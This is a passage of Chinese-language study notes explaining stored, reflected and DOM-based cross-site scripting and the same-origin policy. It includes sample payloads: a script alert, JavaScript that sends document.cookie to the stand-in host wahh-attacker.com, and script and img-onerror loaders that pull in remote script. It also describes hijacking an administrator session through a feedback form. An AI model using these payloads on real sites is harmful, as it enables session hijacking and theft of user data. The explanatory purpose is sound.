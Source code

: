 最经典的存储型`XSS`漏洞是留言板，当用户A在留言板留言一段`JS`代码`<script>alert("run javascript");</script>`,后端未经过滤直接存储到数据库，当正常用户浏览到他的留言后，这段`JS`代码就会被执行，可以借此来盗取`cookie`。

这种攻击常⻅于带有⽤户保存数据的⽹站功能，如论坛发帖、商品评论、⽤户私信等。

**2）反射型 XSS 的攻击步骤：**

1. 攻击者构造出特殊的 URL，其中包含恶意代码。URL包含嵌入式 JavaScript 代码
2. ⽤户打开带有恶意代码的 URL 时，⽹站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. ⽤户浏览器接收到响应后解析执⾏，混在其中的恶意代码也被执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

访问的url是攻击者的url  诱导或者恶意跳转让用户去点击

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库⾥，反射型 XSS 的恶意代码存在 URL ⾥。

反射型 XSS 漏洞常⻅于通过 URL 传递参数的功能，如⽹站搜索、跳转等。 由于需要⽤户主动打开恶意的 URL 才能⽣效，攻击者往往会结合多种⼿段诱导⽤户点击。

**用户通过Web客户端提交给服务端的数据，立刻用于解析和显示该用户的结果页面(数据没有在服务端存储)**。如果提交的数据中含有恶意的脚本代码，而服务端没有经过编码转换或者过滤，就会形成XSS攻击，这种形式的XSS称为反射型XSS。

常见的通过浏览器地址栏输入的HTTP GET请求参数和页面搜索框输入的POST查询内容。恶意用户通过构造含恶意脚本的URL, 发送到各种群、朋友圈、邮箱，诱导用户点击，获取点击用户的信息，达到攻击目的。

```js
var i=new Image;
i.src="http://wahh-attacker.com/"+document.cookie
```

这段代码可让用户浏览器向wahh-attacker.com（攻击者拥有的一个域）提出一个请求。请求中包含用户访问应用程序的当前会话令牌

攻击者监控访问wahh-attacker.com的请求并收到用户的请求。攻击者使用截获的令牌劫持用户的会话，从而访问该用户的个人信息，并"代表"该用户执行任意操作

浏览器不允许任何旧有脚本访问一个站点的cookie，否则，会话就很容易被劫持。而且，只有发布cookie的站点能够访问这些cookie： 仅在返回发布站点的HTTP请求中提交cookie；只有通过该站点返回的页面所包含或加载的JavaScript才能访问cookie。因此，如果 wahh-attacker.com上的一段脚本查询 document. cookie，它将无法获得wahh-app.com发布的cookie，劫持攻击也不会成功。

利用XSS漏洞的攻击之所以取得成功，是因为攻击者的恶意JavaScript是由wahh-app.com送交给它的。和从wahh-app.com收到的任何 JavaScript一样，浏览器执行这段脚本，因为用户信任wahh-app.com。这也就是为何攻击的脚本能够访问wahh-app.com发布的 cookie的原因，虽然它实际来自其他地方。这也是为何该漏洞被称作跨站点脚本的原因

一个域的页面可从另一个域加载一段脚本，并在自己的域内执行这段脚本。这是因为脚本被假定包含代码而非数据，因此跨域访问并不会泄露任何敏感信息。如上所述，在某些情况下，这种假设被违反了，从而导致跨域攻击。

一个域的页面不能读取或修改属于另一个域的cookie或其他DOM数据（如上例所述）。

**3）DOM 型 XSS 的攻击步骤：**

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. ⽤户打开带有恶意代码的 URL。
3. ⽤户浏览器接收到响应后解析执⾏，前端 JavaScript 取出 URL 中的恶意代码并执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js` ，利用`<script>`、`<img>`等标签允许跨域请求资源。
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```js
<script scr="js_url"></script>
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```


